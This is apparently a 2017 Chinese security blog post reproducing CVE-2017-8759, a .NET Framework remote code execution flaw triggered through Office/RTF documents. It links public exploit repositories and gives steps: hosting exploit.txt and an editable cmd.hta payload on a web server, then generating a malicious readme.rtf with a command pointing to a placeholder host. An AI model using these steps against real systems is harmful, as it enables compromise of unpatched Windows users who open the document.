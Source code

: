 ```yaml
---
title: CVE-2017-8759复现
date: 2017-09-23 16:43:47
tags: [CVE, Office RCE]
categories: [安全, POC]
---
```


>近日，360集团核心安全事业部分析团队发现一个新型的Office文档高级威胁攻击，攻击使用了9月12日补丁刚修复的.NET Framework漏洞，该漏洞在野外被利用时为0day状态，用户打开恶意的Office文档就会中招。该漏洞的技术原理和今年黑客“奥斯卡”Pwnie Awards上的最佳客户端漏洞（CVE-2017-0199）如出一辙，不同的是，这次黑客在Offcie文档中嵌入新的Moniker对象，利用的是.net库漏洞，在Office文档中加载执行远程的恶意.NET代码，而整个漏洞的罪魁祸首竞是.NET Framework一个换行符处理失误。

<!-- more -->

# 下载代码

A: https://github.com/Voulnet/CVE-2017-8759-Exploit-sample

B: https://github.com/bhdresh/CVE-2017-8759

# 部署文件

把A中的exploit.txt、cmd.hta上传到一个web服务器，确保能够通过http访问。

![1](/images/CVE-2017-8759-fuxian-1.png)

# 修改文件内容

修改exploit.txt中的地址为你的web访问地址

![2](/images/CVE-2017-8759-fuxian-2.png)

修改cmd.hta内容如下（看样子是VB脚本，理论上你可以写任意代码，原来的代码功能是打开画图程序）

![3](/images/CVE-2017-8759-fuxian-3.png)

# 生成RTF

在B目录下执行：

```python
# you.com 是你的web访问地址
python cve-2017-8759_toolkit.py -M gen -w readme.rtf -u http://your.com/exploit.txt
```

## 验证漏洞

理论上在任何未打补丁的windows系统上，只要用户执行了readme.rtf，就被RCE了。

![3](/images/CVE-2017-8759-fuxian-4.png)

## 其他

1. 原理：http://www.freebuf.com/articles/system/147602.html
2. 解决cmd弹框闪烁问题：http://www.freebuf.com/vuls/147793.html
